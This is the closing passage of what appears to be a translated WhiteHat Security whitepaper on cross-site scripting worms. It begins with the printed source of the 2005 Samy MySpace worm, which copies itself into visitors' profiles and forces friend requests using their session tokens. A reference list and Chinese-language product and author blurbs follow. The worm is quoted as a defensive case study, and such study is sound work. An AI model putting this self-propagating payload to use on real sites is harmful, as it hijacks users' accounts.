        AS[I[0]] = I[1]
    }
    return AS
}
var J;
var AS = getQueryParams();
var L = AS['Mytoken'];
var M = AS['friendID'];
if (location.hostname == 'profile.myspace.com') {
    document.location
        = 'http: //www.myspace.com' + location.pathname + location.search
} else {
    if (!M) {
        getData(g())
    }
    main()
}
function getClientFID() {
    return findIn(g(), 'up_launchIC(' + A, A)
}
function nothing() {}
function paramsToString(AV) {
    var N = new String();
    var O = 0;
    for (var P in AV) {
        if (O > 0) {
            N += ' & '
        }
        var Q = escape(AV[P]);
        while (Q.indexOf(' + ') != -1) {
            Q = Q.replace(' + ', ' % 2B')
        }
        while (Q.indexOf(' & ') != -1) {
            Q = Q.replace(' & ', ' % 26')
        }
        N += P + ' = ' + Q; O++
    }
    return N
}
function httpSend(BH, BI, BJ, BK) {
    if (!J) {
        return false
    }
    eval('J.onr' + 'eadystatechange = BI');
    J.open(BJ, BH, true);
    if (BJ == 'POST') {
        J.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded');
        J.setRequestHeader('Content - Length', BK.length)
    }
    J.send(BK); return true
}
function findIn(BF, BB, BC) {
    var R = BF.indexOf(BB) + BB.length;
    var S = BF.substring(R, R + 1024);
    return S.substring(0, S.indexOf(BC))
}
function getHiddenParameter(BF, BG) {
    return findIn(BF, 'name = ' + B + BG + B + 'value = ' + B, B)
}
function getXMLObj() {
    var Z = false;
    if (window.XMLHttpRequest) {
        try {
            Z = new XMLHttpRe - quest()
        } catch(e) {
            Z = false
        }
    } else if (window.ActiveXObject) {
        try {
            Z = new ActiveXOb - ject('Msxml2.XMLHTTP')
        } catch (e) {
            try {
                Z = new ActiveXOb - ject('Microsoft.XMLHTTP')
            } catch (e) {
                Z = false
            }
        }
    }
    return Z
}
var AA = g();
var AB = AA.indexOf('m' + 'ycode');
var AC = AA.substring(AB, AB + 4096);
var AD = AC.indexOf('D' + 'IV');
var AE = AC.substring(0, AD);
var AF;
if (AE) {
    AE = AE.replace('jav' + 'a', A + 'jav' + 'a');
    AE = AE.replace('exp' + 'r)', 'exp' + 'r)' + A);
    AF = 'but most of all,samy is my hero. < d' + 'iv id = ' + AE + 'D' + 'IV > '
}
var AG;
function getHome() {
    if (J.readyState != 4) {
        return
    }
    var AU = J.responseText;
    AG = findIn(AU, 'P' + 'rofileHeroes', ' < /td>');
    AG = AG.substring(61, AG.length);
    if (AG.indexOf('samy') == -1) {
        if (AF) {
            AG += AF;
            var AR = getFromURL(AU, 'Mytoken');
            var AS = new Ar - ray();
            AS['interestLabel'] = 'heroes';
            AS['submit'] = 'Preview';
            AS['interest'] = AG;
            J = getXMLObj();
            httpSend('/index.cfm ? fuseaction = profile.previewInterests & Mytoken = ' + AR,
                postHero, 'POST', paramsToString(AS))
        }
    }
}
function postHero() {
    if (J.readyState != 4) {
        return
    }
    var AU = J.responseText;
    var AR = getFromURL(AU, 'Mytoken');
    var AS = new Ar - ray();
    AS['interestLabel'] = 'heroes';
    AS['submit'] = 'Submit';
    AS['interest'] = AG;
    AS['hash'] = getHiddenParame - ter(AU, 'hash');
    httpSend(' / index.cfm ? fuseaction = profile.processInterests & Mytoken = ' + AR,
        nothing, 'POST', paramsToString(AS))
}
function main() {
    var AN = getClientFID();
    var BH = ' / index.cfm ? fuseaction = user.viewProfile & friendID = ' + AN + ' & Mytoken = ' + L;
    J = getXMLObj();
    httpSend(BH, getHome, 'GET');
    xmlhttp2 = getXMLObj();
    httpSend2(' / index.cfm ? fuseaction = invite.addfriend_verify & friendID = 11851658 & Mytoken = ' + L,
        processxForm, 'GET')
}
function processx - Form() {
    if (xmlhttp2.readyState != 4) {
        return
    }
    var AU = xmlhttp2.responseText;
    var AQ = getHiddenParameter(AU, 'hashcode');
    var AR = getFromURL(AU, 'Mytoken');
    var AS = new Array();
    AS['hashcode'] = AQ;
    AS['friendID'] = '11851658';
    AS['submit'] = 'Add to Friends';
    httpSend2(' / index.cfm ? fuseaction = invite.addFriendsProcess & Mytoken = ' + AR,
        nothing, 'POST', paramsToString(AS))
}
function httpSend2(BH, BI, BJ, BK) {
    if (!xmlhttp2) {
        return false
    }
    eval('xmlhttp2.onr' + 'eadystatechange = BI');
    xmlhttp2.open(BJ, BH, true);
    if (BJ == 'POST') {
        xmlhttp2.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded'); xmlhttp2.setRequestHeader('Content - Length', BK.length)
    }
    xmlhttp2.send(BK); return true
}
”></DIV>
```

# Notes

1.  The Samy Worm “I’ll never get caught. I’m Popular.” – [http://namb.la/popular/](http://namb.la/popular/)

2.  Cross-site Scripting (Web Security Threat Classification) – [http://www.webappsec.org/projects/threat/classes/cross-](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml) [](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml) [site_scripting.shtml](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)

3.  Teen uses worm to boost ratings on MySpace.com, Computerworld, October 17, 2005 – [http://www.computerworld.com/securitytopics/security/holes/story/0,10801,105484,00.html](http://www.computerworld.com/securitytopics/security/holes/story/0%2C10801%2C105484%2C00.html)

4.  Do Online Banks Facilitate Fraud?, TheMotleyFool.com, December 8, 2004 – [http://www.fool.com/News/mft/2004/mft04120810.htm](http://www.fool.com/News/mft/2004/mft04120810.htm)

5.  Phishing with Superbait, Silicon Valley Chapter (San Jose), April, 2005 – [http://www.whitehatsec.com/presentations/phishing_superbait.pdf](http://www.whitehatsec.com/presentations/phishing_superbait.pdf)

6.  Content Restrictions – [http://www.gerv.net/security/content-restrictions/](http://www.gerv.net/security/content-restrictions/)

7.  A phishing wolf in sheep’s clothing, ZDNet, March 14, 2005 – [http://news.zdnet.com/2100-1009_22-5616419.html](http://news.zdnet.com/2100-1009_22-5616419.html)

8.  The Cross Site Scripting FAQ – [http://www.cgisecurity.com/articles/xss-faq.shtml](http://www.cgisecurity.com/articles/xss-faq.shtml)

9.  XSS cheat sheet – [http://ha.ckers.org/xss.html](http://ha.ckers.org/xss.html)

1.  Ajax: A New Approach to Web Applications, Jesse James Garrett, February 18, 2005 – [http://www.adaptivepath.com/publications/essays/archives/000385.php](http://www.adaptivepath.com/publications/essays/archives/000385.php)

2.  XMLHttpRequest, XUL Planet – [http://www.xulplanet.com/references/objref/XMLHttpRequest.html](http://www.xulplanet.com/references/objref/XMLHttpRequest.html)

3.  Cross-Site Scripting Worm Hits MySpace, BetaNews, October 13, 2005 – [http://www.betanews.com/article/CrossSite_Scripting_Worm_Hits_MySpace/1129232391](http://www.betanews.com/article/CrossSite_Scripting_Worm_Hits_MySpace/1129232391)

4.  Samy’s cancelled MySpace profile – [http://www.myspace.com/33934660](http://www.myspace.com/33934660)

5.  Technical explanation of the MySpace worm – [http://namb.la/popular/tech.html](http://namb.la/popular/tech.html)

6.  .CAIDA Analysis of Code-Red – [http://www.caida.org/analysis/security/code-red/](http://www.caida.org/analysis/security/code-red/)

7.  .Code-Red: a case study on the spread and victims of an Internet worm – [http://www.caida.org/outreach/papers/2002/codered/codered.pdf](http://www.caida.org/outreach/papers/2002/codered/codered.pdf)

8.  .SQL slammer (computer worm) – [http://en.wikipedia.org/wiki/SQLSlammer](http://en.wikipedia.org/wiki/SQLSlammer)

9.  The Spread of the Sapphire/Slammer Worm – [http://www.cs.berkeley.edu/~nweaver/sapphire/](http://www.cs.berkeley.edu/%7Enweaver/sapphire/)

1.  Slammed!, Wired, July 2003 – [http://www.wired.com/wired/archive/11.07/slammer.html](http://www.wired.com/wired/archive/11.07/slammer.html)

2.  Viruses and Worms: What Can We Do About Them?, Testimony of Richard D. Pethia, September 10, 2003 – [http://www.cert.org/congressional_testimony/Pethia-Testimony-9-10-2003/](http://www.cert.org/congressional_testimony/Pethia-Testimony-9-10-2003/)

3.  Yahoo Attack Exposes Web Weakness, BBC News, February 9, 2000 – [http://news.bbc.co.uk/1/hi/sci/tech/635444.stm](http://news.bbc.co.uk/1/hi/sci/tech/635444.stm)

4.  Post to BugTraq by Elias Levy, February 11, 200 – [http://www.sdnp.undp.org/rc/forums/tech/sdnptech/msg02563.html](http://www.sdnp.undp.org/rc/forums/tech/sdnptech/msg02563.html)

5. Xanga Hit By Script Worm – [http://blogs.securiteam.com/index.php/archives/166](http://blogs.securiteam.com/index.php/archives/166)

6.  Account Hijackings Force LiveJournal Changes – [http://blogs.washingtonpost.com/securityfix/2006/01/account_hijacki.html](http://blogs.washingtonpost.com/securityfix/2006/01/account_hijacki.html)

7.  NoScript Firefox extension – [https://addons.mozilla.org/extensions/moreinfo.php?id=722&application=firefox](https://addons.mozilla.org/extensions/moreinfo.php?id=722&application=firefox)

8.  Netcraft Toolbar – [http://toolbar.netcraft.com/](http://toolbar.netcraft.com/)

9.  Security Corner: Cross-Site Request Forgeries December, 2004 – [http://shiflett.org/articles/security-corner-dec2004](http://shiflett.org/articles/security-corner-dec2004)

1.  The CAPTCHA Project, Telling Humans and Computers Apart – [http://www.captcha.net/](http://www.captcha.net/)

2.  Mitigating Cross-site Scripting With HTTP-only Cookies – [http://msdn.microsoft.com/workshop/author/dhtml/httponly_cookies.asp](http://msdn.microsoft.com/workshop/author/dhtml/httponly_cookies.asp)

3.  Web Security Threat Classification – [http://www.webappsec.org/projects/threat/](http://www.webappsec.org/projects/threat/)

4.  Web Application Firewall Evaluation Criteria (WAFEC) – [http://www.webappsec.org/projects/wafec/](http://www.webappsec.org/projects/wafec/)

WhiteHat 的 Sentinel 服务 - 完整的网站漏洞管理

寻找漏洞，保护您的网站 – WhiteHat Sentinel 服务是一个独特的组合，专家分析和专有的自动扫描技术，提供最 全面的网站漏洞覆盖。担心 OWASP 十大安全漏洞或 WASC 威胁分类？扫描器无法识别这些标准所定义的所有的漏洞。 WhiteHat Sentinel 可以。许多最危险的漏洞存在于应用程序的业务逻辑，仅能通过专家的人工分析发现。

不断改进和完善 – WhiteHat Sentinel 在通过持续更新和优化服务保持网站的攻击媒介的最新，并在这方面保持领先 一步。更新是连续的 - 经常一天到几个星期，相对于最多六个月或更长的传统的软件工具。而且，Sentinel 使用其独 特的“Inspector”技术评估确认每一个网站的漏洞。最终，每个站点的利益来自他人的保护。

从根本上消除误报 – 非忙碌的安全团队有时间来处理误报。这就是为什么 WhiteHat Sentinel 安全运营团队通过所 有检测的检验。客户只会看到实际的，可操作的漏洞，节省时间和金钱。

总控制 – WhiteHat Sentinel 通过客户的设置来运行，而不是我们。扫描可手动或自动运行于每天，每周，不过往往 运行于网站变化的时候。在需要的时候，WhiteHat Sentinel 提供了一个全面的评估，加上威胁和严重程度级别基础上 的优先级建议，所需要的知识，以确保提供给他们的安全专业人士更好的帮助。

网站任何时刻的更新，无限制的评估 – 使用 WhiteHat Sentinel，客户支付年费，每年可以进行无限制的评估。 而且，可以通过 WhiteHat Sentinel 管理更多的应用，相对每个应用更低的费用。高容量电子商务网站可能有每周一次 的代码更改，而其他则每月更改一次。WhiteHat Sentinel 提供频繁必要的评估网站的灵活性。

简单的管理 – 没有繁琐的软件安装和配置。最初的漏洞评估往往是在一小时内就运行。使用 WhiteHat Sentinel 的 Web 界面，可以很容易地访问漏洞数据，可以安排在任何时间从任何位置扫描或打印报告。不需要为软件、硬件、一 个工程师来运行扫描和解释报告支付费用。使用 WhiteHat Sentinel 服务，简化了网站漏洞管理和控制。

# 关于

关于作者

Jeremiah Grossman 是 WhiteHat Security 的创始人和 CTO，在漏洞管理方面是世界知名专家，Web 应用安全联盟的创始人之一，最近被评为 InfoWorld 的 2007 年 25 位首席技术官。格罗斯曼先生是一个经常在行业会议发表演讲的 人，包括黑帽子大会，ISACA，CSI，OWASP，Vanguard，ISSA，OWASP，Defcon 黑客大会等。他撰写了大量的文章和白皮书，发现了许多尖端的攻击和防御技术，是《XSS Exploits》的合作作者。格罗斯曼先生经常在各大媒体出版物发表 文章，如 InfoWorld，USA Today，PCWorld，Dark Reading，SC Magazine，SecurityFocus，C-Net，SC Magazine，CSO 以 及 InformationWeek。在 WhiteHat Security 之前，他是雅虎的一个信息安全人员。

关于 WhiteHat Security 公司

WhiteHat Security 的总部设在加利福尼亚州的圣克拉拉，是网站漏洞管理服务的领先供应商。WhiteHat 的 delivers turnkey 解决方案，使企业能够获得宝贵的客户数据，符合行业标准，并保持品牌的完整性。WhiteHat Sentinel，公司 的旗舰服务，是结合专家的分析和行业领先的技术，提供无与伦比的覆盖面，以保护关键数据免受攻击的唯一的解决 方案。WhiteHat Security 的更多信息，请访问 [www.whitehatsec.com](http://www.whitehatsec.com/)。

WhiteHat Security, Inc. | 3003 Bunker Hill Lane, Suite 220 | Santa Clara, CA 95054 | 408.343.8300 |

[www.whitehatsec.com](http://www.whitehatsec.com/)

版权所有 © 2007 WhiteHat Security 公司 | 本出版物中使用的产品名称或品牌仅用于识别目的，可能是 其各自公司的商标或品牌。
